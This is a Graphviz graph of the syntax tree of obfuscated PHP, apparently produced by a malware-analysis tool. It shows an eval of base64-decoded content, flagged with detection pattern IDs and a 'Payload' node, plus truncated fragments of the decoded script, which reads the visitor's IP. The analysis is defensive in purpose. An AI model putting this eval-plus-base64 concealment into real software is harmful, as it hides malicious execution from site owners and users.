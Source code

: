 digraph ast {
node [shape=none];
997737880 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737880</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
997737880 -> 997737876 [weight=2];
997737880 -> 997737878 [weight=2];
997737881 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737881</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
997737881 -> 997737882 [weight=2];
997737882 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737882</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
997737882 -> 997737875 [weight=2];
997737882 -> 997737887 [style=dotted,label=DynamicResolution];
997737883 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737883</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>Patterns</TD><TD border='0' cellpadding='5'>[4, 10, 27]</TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
997737883 -> 997737873 [weight=2];
997737883 -> 997737881 [weight=2];
997737885 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737885</TD><TD border='0'><B>StringExpression</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>PD8KJGlwID0gZ2V0ZW52KCJSRU1PVEVfQUREU...</TD></TR></TABLE>>];
997737886 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737886</TD><TD border='0'><B>HexLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>3c3f0a246970203d20676574656e762822524...</TD></TR></TABLE>>];
997737887 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737887</TD><TD border='0'><B>StringLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>?&gt;&lt;? $ip = getenv('REMOTE_ADDR'); $me...</TD></TR></TABLE>>];
997737887 -> 997737888 [style=dotted,label=Parse];
997737873 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737873</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
997737874 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737874</TD><TD border='0'><B>StringExpression</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>?&gt;</TD></TR></TABLE>>];
997737875 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737875</TD><TD border='0'><B>BinOP</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>.</TD></TR></TABLE>>];
997737875 -> 997737874 [weight=2];
997737875 -> 997737880 [weight=2];
997737875 -> 997737886 [style=dotted,label=DynamicResolution];
997737876 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737876</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
997737877 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737877</TD><TD border='0'><B>Variable</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>(0, 7763334)</TD><TD border='0' cellpadding='5'>faisal</TD></TR></TABLE>>];
997737878 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737878</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
997737878 -> 997737879 [weight=2];
997737879 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737879</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
997737879 -> 997737877 [weight=2];
997737879 -> 997737885 [style=dotted,label=DataflowResolution];
997737888 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>997737888</TD><TD border='0'><B>Payload</B></TD></TR></TABLE>>];
}
